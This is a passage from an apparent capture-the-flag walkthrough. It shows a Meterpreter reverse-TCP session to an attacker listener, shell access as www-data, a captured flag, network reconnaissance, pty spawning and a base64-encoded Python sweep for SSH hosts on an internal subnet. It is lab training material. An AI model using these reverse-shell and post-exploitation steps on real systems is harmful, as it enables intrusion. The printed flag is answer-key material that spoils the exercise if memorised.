msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.106.222:4445
[*] Sending stage (38288 bytes) to 10.10.130.73
[*] Meterpreter session 1 opened (10.8.106.222:4445 -> 10.10.130.73:59268) at 2020-10-10 15:30:27 +0200

meterpreter > ls
Listing: /var/www/html
======================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40755/rwxr-xr-x   4096     dir   2019-09-18 13:33:10 +0200  .git
100440/r--r-----  533824   fil   2019-09-06 17:49:35 +0200  CTX_WSUSpect_White_Paper.pdf
100440/r--r-----  821311   fil   2019-09-06 17:49:35 +0200  Context_Red_Teaming_Guide.pdf
100440/r--r-----  57770    fil   2019-09-06 17:49:35 +0200  Context_White_Paper_Pen_Test_101.pdf
100440/r--r-----  1963179  fil   2019-09-06 17:49:35 +0200  Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
100440/r--r-----  1024712  fil   2019-09-06 17:49:35 +0200  Glibc_Adventures-The_Forgotten_Chunks.pdf
100440/r--r-----  880      fil   2019-09-10 15:40:43 +0200  api.php
100440/r--r-----  17414    fil   2019-09-10 16:14:30 +0200  functions.php
100440/r--r-----  1508     fil   2019-09-09 11:16:55 +0200  home.php
100440/r--r-----  253      fil   2019-09-10 16:23:41 +0200  index.php
100440/r--r-----  21       fil   2019-09-06 17:49:35 +0200  info.php
100440/r--r-----  2226185  fil   2019-09-18 16:53:33 +0200  mobile-app-prototype.apk
100755/rwxr-xr-x  1111     fil   2020-10-10 15:27:47 +0200  shell.php
100755/rwxr-xr-x  866      fil   2020-10-10 15:24:49 +0200  tmpbsjex.php
100666/rw-rw-rw-  766      fil   2020-10-10 15:24:49 +0200  tmpupkap.php

meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > shell
Process 486 created.
Channel 0 created.
whoami
www-data
cd /var/www
ls
flag.txt
html
cat flag.txt
{FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}
```

`{FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}`

5. What is the flag in the /root/ directory of router1? {FLAG:Router1:XXX}

```
meterpreter > shell
Process 493 created.
Channel 1 created.

ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
14: eth0@if15: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default
    link/ether 02:42:ac:10:01:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.1.10/24 brd 172.16.1.255 scope global eth1
       valid_lft forever preferred_lft forever

ip route show
default via 172.18.0.1 dev eth0
172.16.1.0/24 dev eth1 proto kernel scope link src 172.16.1.10
172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.2

ss
NetidState Recv-Q Send-Q               Local Address:Port    Peer Address:Port
u_strESTAB 8      0         /run/php/php7.2-fpm.sock 25209              * 0
u_strESTAB 0      0                                * 24380              * 24379
u_strESTAB 0      0                                * 24379              * 24380
u_strESTAB 0      0                                * 24282              * 24281
u_strESTAB 0      0                                * 24281              * 24282
tcp  ESTAB 0      0                       172.18.0.2:59268   10.8.106.222:4445

ip -s neigh
172.18.0.1 dev eth0 lladdr 02:42:9f:35:e8:97 ref 1 used 22/0/21 probes 1 REACHABLE
```

```
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@app:~/html$
```

```
www-data@app:~/html$ echo 'aW1wb3J0IHNvY2tldAoKZm9yIGkgaW4gcmFuZ2UoMCwgMjU2KToKICAgIHNvY2sgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICBzb2NrLnNldHRpbWVvdXQoMC41KQogICAgaXAgPSAnMTcyLjE2LjEue30nLmZvcm1hdChpKQogICAgaWYgMCA9PSBzb2NrLmNvbm5lY3RfZXgoKGlwLCAyMikpOgogICAgICAgIHNvY2suY2xvc2UoKQogICAgICAgIHByaW50KGlwICsgJyAgIE9OJyAsIGZsdXNoPVRydWUpCiAgICBlbHNlOgogICAgICAgIHByaW50KGlwLCAgZmx1c2g9VHJ1ZSkK'  | base64 -d > arp.py
<aW50KGlwLCAgZmx1c2g9VHJ1ZSkK'  | base64 -d > arp.py
www-data@app:~/html$ python3 arp.py
python3 arp.py
172.16.1.0
172.16.1.1
172.16.1.2
172.16.1.3
```

```
www-data@app:~/html$ ip -s neigh
ip -s neigh
172.16.1.249 dev eth1  used 7/67/4 probes 6 FAILED
172.16.1.252 dev eth1  used 6/66/3 probes 6 FAILED
172.16.1.251 dev eth1  used 6/66/3 probes 6 FAILED
172.16.1.254 dev eth1  used 5/65/2 probes 6 FAILED
172.16.1.253 dev eth1  used 5/65/2 probes 6 FAILED
172.18.0.1 dev eth0 lladdr 02:42:9f:35:e8:97 ref 1 used 172/0/167 probes 1 REACHABLE
172.16.1.250 dev eth1  used 7/67/4 probes 6 FAILED
```

6. What flag is transmitted from flag_server to flag_client over UDP? {FLAG:UDP:XXX}
7. What flag is transmitted from flag_server to flag_client over TCP? {FLAG:TCP:XXX}
